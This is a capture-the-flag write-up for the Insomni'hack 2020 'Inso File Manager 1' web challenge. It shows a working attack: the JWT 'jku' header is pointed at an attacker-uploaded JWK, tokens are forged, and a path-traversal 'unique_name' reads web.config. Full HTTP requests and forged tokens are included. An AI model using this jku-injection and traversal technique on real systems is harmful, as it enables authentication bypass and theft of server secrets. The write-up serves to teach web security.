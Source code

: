 ```yaml
---
title: "Insomni'hack teaser 2020 - Inso File Manager 1 (Web)"
date: 2020-01-21T13:37:00+01:00
author: "SlaxXx"
description: "Challenge writeup: 'filemanager 1'@Insomnia'hack teaser 2020"
---
```

***TL;DR***
Dont trust user suppplied data, don´t screw up your jwt validation.

# Understanding the application
The Ino Filemanager lets us, after registration, upload files and make them publicly available. 

After registering a user and logging in, we observed that we were issued a JSON Web Token (*JWT*).
The JWT will be stored in the local storage of the used browser and it will be transmitted with every request to the server.

```
{"Id":0,"Guid":"69a96f63-cc31-4a42-bcf8-03b3e9705428","Username":"SlaxXx","Password":null,"Token":"eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjY5YTk2ZjYzLWNjMzEtNGE0Mi1iY2Y4LTAzYjNlOTcwNTQyOCIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ3MjQwLCJleHAiOjE1ODAyNTIwNDAsImlhdCI6MTU3OTY0NzI0MH0.aqEGHdNOaw-qcToTQkqdTvws2boYydo7wZVYJPWzjcvbEzWslsHUlyBD2yHdPj3iyPfc2p3KpTDfCRMRNoTjSyx7n6s-2N143fZ22EuD7kaSgGOuFbqs3SD0_Ot7LzVcwYJfVCUFiFC5Xw4gcwnuSraCp9x0gNtdEJCzDN5weMvH1qy6bBnm3wGDvfWBxXqho2hAqO5bOAqyBf_jZK0JKUvchQ62jEKMjcK97qBSfEY_RTAwVJYHvyspajvfbep9RWnW0rOqX22FsxHp0uJfK9WUiQFYGMl9Fal3I49qD4Cd42sLZ3ncD0IFepKDSxb5gGhf5fa3ZfPOmwOKTbKsPw","Role":"User"}
```
We decoded the JWT with the help of [jwt.io](https://jwt.io).
For more informations about JSON Web Tokens visit [JWT introduction](https://jwt.io/introduction/) or the offical [RFC](https://tools.ietf.org/html/rfc7519#section-4.1.4).
The decoded parts are as follows:

## Header
```
{
  "alg": "RS256",
  "kid": "inso20",
  "typ": "JWT",
  "jku": "https://filemanager.insomnihack.ch/jwk.json"
}
```
``"alg": "RS256"``: The algorithm used to sign the JWT is RSA256. The token is signed by a private key and validated against the corresponding public key.  

``"kid": "inso20"``: The id of the used key is *inso20*. 

``"typ": "JWT"``: This is a JSON Web Token... duh... 

``"jku": "https://filemanager.insomnihack.ch/jwk.json"``: The public key to validate the token signature can be found at *https://filemanager.insomnihack.ch/jwk.json*

## Payload
```
{
  "unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428",
  "role": "User",
  "nbf": 1579647240,
  "exp": 1580252040,
  "iat": 1579647240
}
```
``"unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428"``: This seems to be a unique id generated for the registered user by the application. This will 

``"role": "User"``: A role assigned to the registered user. 

``"nbf": 1579647240``: The *nbf* (not before) claim identifies the time before which the JWT MUST NOT be accepted for processing. 

``"exp": 1580252040``: The *exp* (expiration time) claim identifies the expiration time on or after which the JWT MUST NOT be accepted for processing

## Signature
From the header section, we now know that the algorithm used to sign the JWT is RSA256 and the public certificate to validate the signature can be found at *https://filemanager.insomnihack.ch/jwk.json*.

Accessing the public reveals, that indeed the ``kid`` id is *inso20*. 

```
{
  "kty": "RSA",
  "e": "AQAB",
  "alg": "RS256",
  "kid": "inso20",
  "n": "kE2FzXws8q2GnkNaQsQBIcSe0zZsxRe35V5rCXJRX9A1J5NCHoZiJS4LFDJW3n7Z5yNdntCKk9L7wYkOAxNiqPQHWuIk4Nyg3ZViZJLbO0fyx3eq-FSYhcfIePzD9Uz1ZgjBwavUi3ya8WoMv5ffG89OeTiVy7E1M-f7ykm205Nl11wrWXyyIWiyhchTl5baZzf3xLy-zn1s9yC2z13XOst-5pde4kfntIadYcdg9__VpYo6-k5sdpTlK7jPpKfUhfmRudgdf8Q37vLT5WlGFt-zh_D_QcNqc0heb4dhwgpgaqu-NJ7n6MJn6TDXes2qb-aLDFpwlJv9qULy7UdEDw"
}
```
We also see that the public key is in the JSON Web Key (JWK) format, informations regarding the JWK can be found in the offical [RFC](https://tools.ietf.org/html/rfc7517). 

The file manager of course also has an upload function.
![upload](/img/upload.jpg)
The upload will result in the http request below
```
POST /api/Files/Upload HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjA4ZWZmMTdhLWNkOWYtNGVhZC04MjcxLTc3Y2VhN2QxZWM1YyIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ5NzkzLCJleHAiOjE1ODAyNTQ1OTMsImlhdCI6MTU3OTY0OTc5M30.ZpZ8UX_UmW7_w4RgGIzIc2FiXtKdDPo-kUO-prQNnar_qRl1McIsbhV4lAvVSl7Fp48WXDdaMn7uqStFDAUQUo3psZX4mvoQ2tIxT7ealcbHQHg3HaM04Na6zaH-qFtlNRR5C1SryMdDiiZ-HECiA2dd87aDv3qDYFkw1h16AkO8I83CYkIuHoDWa6O8VQi8QB-3uqefZMNTnb9-NiYGmYqdsea_2wgP2lFEFp15eyqQy825Bw1QJK3nTJx1DlwZPF5ayzFnWOD2ADpkXH5ybT4Xi5lxXz7g_LoWCn_bg85vuXG05eDMWerU38j3pW9VBuVmyiWuU0PBJeLSbCJodg
Content-Type: application/json;charset=utf-8
...SNIP...

{"filename":"Sharkzwithlazers.pizza","content":"eW9sb1Bpenph"}
```
The previously received token is now transferred in the ``Authorization`` Header.
Filename and base64 encoded file content are transmitted in the json request body.
Once transmitted the server responses with a generated unique id.
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
...SNIP...

"7db3bf68-f007-445c-8f42-c3802ec39738"
```
Once uploaded we can click on the uploaded file to get the stored content, see screenshot below.
![getContent](/img/getContent.jpg)
The click resultet in the http request below 
```
GET /api/Files/GetFile/7db3bf68-f007-445c-8f42-c3802ec39738 HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjA4ZWZmMTdhLWNkOWYtNGVhZC04MjcxLTc3Y2VhN2QxZWM1YyIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ5NzkzLCJleHAiOjE1ODAyNTQ1OTMsImlhdCI6MTU3OTY0OTc5M30.ZpZ8UX_UmW7_w4RgGIzIc2FiXtKdDPo-kUO-prQNnar_qRl1McIsbhV4lAvVSl7Fp48WXDdaMn7uqStFDAUQUo3psZX4mvoQ2tIxT7ealcbHQHg3HaM04Na6zaH-qFtlNRR5C1SryMdDiiZ-HECiA2dd87aDv3qDYFkw1h16AkO8I83CYkIuHoDWa6O8VQi8QB-3uqefZMNTnb9-NiYGmYqdsea_2wgP2lFEFp15eyqQy825Bw1QJK3nTJx1DlwZPF5ayzFnWOD2ADpkXH5ybT4Xi5lxXz7g_LoWCn_bg85vuXG05eDMWerU38j3pW9VBuVmyiWuU0PBJeLSbCJodg
...SNIP...

```
The previously received id ``7db3bf68-f007-445c-8f42-c3802ec39738`` is now used to access the file content.

Besides uploading and viewing files it is also possible to make files publicly available.
After ticking the *public* checkbox a publicly available url is generated where everyone can access the uploaded file.
![set public](/img/public.jpg)
If we disect the public url `.../api/files/public/7db3bf68-f007-445c-8f42-c3802ec39738/08eff17a-cd9f-4ead-8271-77cea7d1ec5c` we can see that the first dynamic part `7db3bf68-f007-445c-8f42-c3802ec39738` is the generated file id and the second is the `"unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428"` from our JWT.



Enough talking let`s get hacking.

# Exploit
![letsGo](/img/letsgo.png)

First, we noticed, that we can control the `jku` from the JWT.
If we entered another url, for example https://sharkzwithlazers.pizza the request will hang for a significant amount of time until it fails.
However we didn´t receive an http request on our server, our guess was that external communication was not possible.
But since we are able to publish files on the filemanager itself we can simply upload a JWK file there and publish it.
To create such a JWK file we used [jwt.io](https://jwt.io/) to create a *RS256* signet JWT token.  
The site autogenerates private and public key for the created JWT.
The public key must be converted from the PEM format used by jwt.io to JWK format.
This is done by using [this site](https://irrte.ch/jwt-js-decode/pem2jwk.html). 
To make the key id of the server and the JWT match, we had to add the keyid to the JWK.
The generated JWK can be seen below and also downloaded [here](/docs/sharkz.jwk):
```
{
    "kty": "RSA",
    "kid": "inso20",
    "n": "nzyis1ZjfNB0bBgKFMSvvkTtwlvBsaJq7S5wA-kzeVOVpVWwkWdVha4s38XM_pa_yr47av7-z3VTmvDRyAHcaT92whREFpLv9cj5lTeJSibyr_Mrm_YtjCZVWgaOYIhwrXwKLqPr_11inWsAkfIytvHWTxZYEcXLgAXFuUuaS3uF9gEiNQwzGTU1v0FqkqTBr4B8nW3HCN47XUu0t8Y0e-lf4s4OxQawWD79J9_5d3Ry0vbV3Am1FtGJiJvOwRsIfVChDpYStTcHTCMqtvWbV6L11BWkpzGXSW4Hv43qa-GSYOD2QU68Mb59oSk2OB-BtOLpJofmbGEGgvmwyCI9Mw",
    "e": "AQAB"
}
```
Next we saved the created JWK to a file and uploaded it to the filemanager and used the publish funtion to make it publicly available.
Once uploaded we changed ``jku`` to point to our uploaded JWK.
```
{
  "alg": "RS256",
  "kid": "inso20",
  "typ": "JWT",
  "jku": "https://filemanager.insomnihack.ch/api/files/public/d8715758-9adb-4d3b-8015-e4029ba43e7f/79a3696b-97f6-4132-9f82-ca1f42f34ff2"
}
```
Since the server is now checking the JWT against our JWK we can change it to our liking and sign it using the known private key.
We have done this using jwt.io, see screenshot below.
![jwtToken](/img/jwtio.jpg)
This means we can send any ``unique_name`` inside the JWT and the server will accept it. As far as we know, the ``unique_name`` is part of the file structure and will probably be the folder where our user's files are stored.
Next we tried accessing the *web.config* by issuing the below *GetFile* request.
We created a token where the ``unique_name``  is set to ``..\\..\\..\\..\\inetpub\\wwwroot`` and the requested file to ``web.config``.
```
GET /api/Files/GetFile/web.config HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvYXBpL2ZpbGVzL3B1YmxpYy9kODcxNTc1OC05YWRiLTRkM2ItODAxNS1lNDAyOWJhNDNlN2YvNzlhMzY5NmItOTdmNi00MTMyLTlmODItY2ExZjQyZjM0ZmYyIn0.eyJ1bmlxdWVfbmFtZSI6Ii4uXFwuLlxcLi5cXC4uXFxpbmV0cHViXFx3d3dyb290Iiwicm9sZSI6IlVzZXIiLCJuYmYiOjE1Nzk2NDcyNDAsImV4cCI6MTU4MDI1MjA0MCwiaWF0IjoxNTc5NjQ3MjQwfQ.bxV1lHqgleVRCNH9XqEWKehR3ffI5gA3Woi3T4Dheihwfw3dRx6Ge_ewfdhRZJSHnxt4l9QEJiZqiEEz_dxlsJlePg1cdypX5bJdvxfvmvqo2LGlfFRkZr26CIdTZf4NWB4PJkPb82GcVLghh-_ugNxIxRTSp2oVKWiIoBLQJgEp27bjW-ZYMzXuV0QDmq5vQRKcwwVH5l2z0s7uHNCzSMye3B6D59Wb377RQEvWaEpfVgVAwffV6igXWjluQJFEcEd_3yv60bPMRiLykZB9LpUxqugAih3huuCZRfRsGvzTkVrST0sFJd0b5scQxRah9zduM3U7BfXov89TiP42jg
...SNIP...

```
With this request we were able to read the *web.config* which contained the flag.
Unfortunately I forgot to take screenshots or store the requests of the response so I´m not able to show you that it worked. \*sad face intensivies\*